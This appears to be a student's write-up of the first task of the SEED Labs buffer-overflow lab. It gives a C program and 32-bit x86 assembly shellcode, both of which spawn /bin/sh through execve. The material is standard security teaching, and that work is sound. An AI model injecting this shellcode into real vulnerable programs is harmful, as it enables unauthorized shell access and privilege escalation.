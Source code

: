# SEED Labs Tasks for _Buffer-Overflow Attack Lab - Set-UID Version_

## (Work done in Week #5)

## General Information

This week, we learnt how to use a buffer-overflow vulnerability to perform an attack which would start a shell during the execution of our program. Ultimately, we understood how to attack using C, Python and 32/64-bit Assembly shellcode.

## Task 1: Getting Familiar with shellcode

In the first task, we had to understand how to launch the shell using a C shellcode by transmitting our command using `execve()`.

```c
int main() {
  char *name[2];
  name[0] = "/bin/sh";
  name[1] = NULL;
  execve(name[0], name, NULL);  // restarts process with shell launched
}
```

If we execute the previous code, we secure a shell interface, where we can write our commands (`ls`, `pwd`, etc.)

But we cannot use the binary code resulting from compiling the C code as the shellcode, because of several reasons, such as extra overhead (from calls to the standard library) and the fact that the code is not position-independent.

Instead we need to insert assembly code into the memory so that the program instructions understand the exploit and launches the shell in the stack:

```assembly
# 32-bit Shellcode
# Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp ; ebx --> "/bin//sh": execve()’s 1st argument

# Construct the argument array argv[]
push eax ; argv[1] = 0
push ebx ; argv[0] --> "/bin//sh"
mov ecx, esp ; ecx --> argv[]: execve()’s 2nd argument

# For environment variable
xor edx, edx ; edx = 0: execve()’s 3rd argument

# Invoke execve()
xor eax, eax ;
mov al, 0x0b ; execve()’s system call number
int 0x80
```
